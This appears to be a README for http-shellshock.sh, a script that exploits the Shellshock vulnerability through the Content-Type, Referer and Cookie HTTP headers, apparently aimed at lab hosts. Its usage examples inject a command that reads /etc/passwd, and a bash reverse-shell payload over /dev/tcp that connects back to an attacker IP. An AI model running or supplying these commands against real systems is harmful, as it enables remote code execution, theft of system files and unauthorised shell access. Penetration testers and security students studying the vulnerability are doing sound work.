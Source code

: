 # http-shellshock.sh

Script to test web pages for shellshock vulnerabilities in headers

Switches

-u = URL
-h = Headings (optional), Not specifying an option will test all 3, to test a specific header feild in address, select number from list: 

      1 = "Content-Type"

      2 = "Referer"

      3 = "Cookie"

-s = Script command (optional) default is /bin/uname -a, Full paths to commands are required


Examples below

      ./http-shellshock.sh -u url [-h number] [-s 'command to run']

      ./http-shellshock.sh -u http://10.10.10.56/cgi-bin/user.sh

Full paths to binaries may be required as web service user may not have loaded profile. The below command tests a url "Content-Type" and cat's the passwd file in /etc.

      ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/cat /etc/passwd'

If the target is vulnerable we might be able to get a reverse shell using the following...
Start a reverse nc listener and run the below changing the attackers IP and port
 
      ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

